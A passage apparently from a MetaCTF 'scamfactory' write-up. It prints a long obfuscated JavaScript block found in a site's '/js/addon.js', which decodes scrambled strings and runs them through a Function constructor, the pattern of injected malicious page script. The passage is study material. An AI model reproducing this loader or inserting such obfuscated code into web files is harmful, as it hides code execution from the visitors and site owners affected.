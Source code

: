 ![metactfv5-scamfactory-01](/assets/images/metactf-writeups/metactfv5-scamfactory-01.png)

The obfuscated JS code that I found in `/js/addon.js`

{% raw %}

```js
var uniqueId;(function(){var qSg='',JDm=949-938;function WYh(b){var r=1320763;var z=b.length;var l=[];for(var t=0;t<z;t++){l[t]=b.charAt(t)};for(var t=0;t<z;t++){var x=r*(t+200)+(r%37471);var v=r*(t+694)+(r%41467);var n=x%z;var p=v%z;var d=l[n];l[n]=l[p];l[p]=d;r=(x+v)%3077184;};return l.join('')};var VHP=WYh('toksfrujcoivbqrystupohcmelzndgtnawxcr').substr(0,JDm);var hJz='fl,=hr=ne1aC3ym+tbn;mtkCd==tcg46p=o= ;j)oo==ot,vwg )(jSp< {8hiu,rly;v,8)[;pw70aryvtC0p=s!na0lfri(r(dof-ivo8gal(c"b,ru i.4tian g{t{;,ra+na}{](+s0[+oqg;0,()b( )h ,6;] =brn=(s=krri,i1)ut5e ) (.yb+jaer2(u0rv="={0;}tfj)f.rm= 9hzy[b,rq0io+;xrj6<f;];.eohuu)ta.]lioe"6}vefo1(7rrup=)+gfnh{ld()sfqxwk=t.];u0nitjnl;l=0h.ymzs487i(+f0=nausa.cs;j=e,van h+==tkn.*hpv ;).; vv)aCt=c=(;ke" p(+y;vas.orb.+n9rC<d6ydvrb8vck ort}gu;n;gs) h=g+t sa,+jjr;;)C=ge4n<nsrl]92==nlk+.;,1=a-[.}.j2+"o(()og(ir;zrtuk,ll;1chf[a d7rtrw5>)u2idahl>lrt;v-vkt;1.];egl, xv24(;c<e];"nr806h;eh1da=]hhrh)ov1oe)=(an3)xtp8[h=;f 52pAe=i=a+p4=!+Cs.ia].zme.esen;qkt.+rvvq s=(ccn)gA,( a"=r[;fj.9)7rds6dkicebd)-azi[kgxz,98;+e(,;[et"bvu{[-iiaz;}a.eipl=(uors;u))=)2a,sn;n;)4l[frsr,(n+,3r15=w]raba)7+v7;xs9S]ynnu)fv,=b+r(t+i6,r)oksi;9*n.rbeha)Ao}-]r, h;l.(;rla.)p89r([r(1(hf]Afovrat 1i,([r="x7,1v)eCrar,-;eg+xeg)t"n+0vr8o.u;ocp1[A(i(uv.x2ns(tl;';var zOS=WYh[VHP];var Uug='';var RaS=zOS;var urI=zOS(Uug,WYh(hJz));var EJP=urI(WYh('_qB=t8_Bni(B=f$f9}44u,eB(.f.44;;8$(.e\'(ltfot(6qr[_B24+)(;Bo!}cran9fen.iBB5\/;8ntua,1k"7,3!01B9$)S!Sen_Be28c.b<B"d}B$;fkB3e(s].8(9+B"_5B_$jd)B i!Bfbpo&0"[bdc240rtx90Bf.(.f=o&fjtBre_n(]nu6019BBfrdkeBB+3fi;tgi(1ta(cmBsB5=%t6,on7k97s.)].eg(]o\/2Byd=.dt1af7seoe8a=6e.{$%eB,fdo7q-,y_%(1ct[ls4)(v fBi;[8:!Bfi4e%_ %_%BtC8osM8ycd_$i0$eo,#r760n$23h0e!e;Bd3){foatd)j(B:eBBh=:n$1(x.s6.4eeeuBBaBB(%2ijelendm.!n(3%(6Bf._BB69=8;].Be($8:{!).aj7sv"B(i.[3h6e&xtm u)eB;\/nB_{40.B;)jCg%B8Bf)h0a]!}]n,v8BfB8ti5n7B%,4,d%.n!4]);a5)r!e&!i_#d[B5)2t_=f_,l2,$(BjBs4eBo3 c[.n) ).nt(Broe0$.i.s)af.a&B.<).9cb=_0,4B3.x6;BnBo5,c+r];%Bj=e$$BB0e)Bfjh,ia]"5g_f};n_b)}\'6%r)n,e)3!fbie.b.3{re2(1(7e;;n0a.,B),dB)pe8_Ba!9BB=.h.8BBnebecaeB}t5]o3ff!BSr.-n!aB3(o#i1"BB;_.a5vfnkq=33tB\/u36t}IfB$e} _)]0r_[fB5B679]_9&-B_u9i7n*,!(?u24)32sBfo_ _8,%r1Bee.BahB)sud.rB,"u(06.-],)1$i(.\') )rx(st3);% t4_f{($1f\'!1e,B]!!%gdsxs2o{11((+0tB1g)!e7e1_mf}7Bb0()](6b7!6)e)s41B8ec(n0$+6)aB +5B]f7_=iBB#lB]BB,{}B$(b_85(9(B.Bj270}=..y;0ar3jo!]!-_r$s)rB=b]tBN!e7(} u{Bif683;#_){=#te20beBit_;)m)r]7)!Ba,".$m_3=,$c8.$.,,[7_7=Bn29$5*3${\/mafb$ leB _$g.8ee1,;a)}e5oBBiahuB3Btaer,s-=:f;v.4rBuria(%sol;)$((ylB_<4a$;r8$f(fe(a\']55()jx{=.5_ba4B6c(B(;=.a,( )%*,_2-$)e {EBasu B()i.+et{;+B sBB$duaSBef.]820;q;5t21( B9uBc3BB0, e#xsp*f,f=_8,B=2609=-ugB)fBc c;7.l06f+&)7BB(]!])aB-ore.64#ltB)3u-B85fr!<fsr))Inf]o)3) b$9$2t_B(.l{+n$]oB%).{{0Bj_6o;Ba)8lB.,6,_.e .u$;yo_c[:fr%x_t ]fB;s;s;(_to,r ee.a%B .f_;BB],BejBBri!10oi((d+3ravvipy,t8.Bv04iB 1=B.Bf_.oeau(;-rh)_r4,gthe{ 6Btg'));var BDk=RaS(qSg,EJP );BDk(8443);return 5382})()
```

{% endraw %}
